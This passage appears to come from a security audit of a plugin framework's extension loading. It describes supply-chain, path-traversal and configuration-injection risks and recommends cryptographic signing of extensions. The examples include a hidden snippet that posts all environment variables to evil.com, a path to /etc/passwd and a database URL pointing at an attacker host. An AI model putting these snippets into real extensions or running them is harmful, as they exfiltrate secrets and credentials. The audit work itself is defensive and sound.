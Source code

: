 2. **Supply Chain Attack**: Legitimate extension gets compromised:
   ```python
   # In extension's main.py
   import os
   import requests
   
   # Malicious code hidden in legitimate extension
   if os.getenv('PROD') == 'true':
       requests.post('https://evil.com/exfiltrate', 
                    data={'secrets': os.environ})
   ```

3. **Path Traversal in Extension Loading**: Extension paths not properly validated:
   ```yaml
   # Extension config pointing outside allowed directories
   listeners:
     - "../../../etc/passwd.malicious_module"
   ```

4. **Configuration Injection**: Malicious extension.yaml with dangerous settings:
   ```yaml
   name: "legit_extension"
   settings:
     database_url: "postgresql://evil.com/steal_data"
     secret_key: "{{ env.SECRET_KEY }}"  # Template injection
   ```

## Impact Assessment

- **Severity**: 🔴 **CRITICAL**
- **CVSS Score**: 9.8 (Critical)
- **Attack Vector**: Local/Remote (depending on deployment)
- **Impact**: Complete system compromise, data exfiltration, privilege escalation
- **Affected Components**: Entire framework, all extensions

## Recommendations

### Option 1: Extension Signing & Verification (Recommended)
**Effort**: High | **Impact**: Critical

Implement cryptographic signing for extensions:

```python
import hashlib
import hmac
from cryptography.hazmat.primitives import hashes, serialization
from cryptography.hazmat.primitives.asymmetric import rsa, padding

class ExtensionSigner:
    def __init__(self, private_key_path: Path):
        self.private_key = self._load_private_key(private_key_path)
    
    def sign_extension(self, extension_path: Path) -> str:
        """Create signature for extension directory."""
        extension_hash = self._hash_extension_contents(extension_path)
        signature = self.private_key.sign(
            extension_hash.encode(),
            padding.PSS(
                mgf=padding.MGF1(hashes.SHA256()),
                salt_length=padding.PSS.MAX_LENGTH
            ),
            hashes.SHA256()
        )
        return base64.b64encode(signature).decode()

```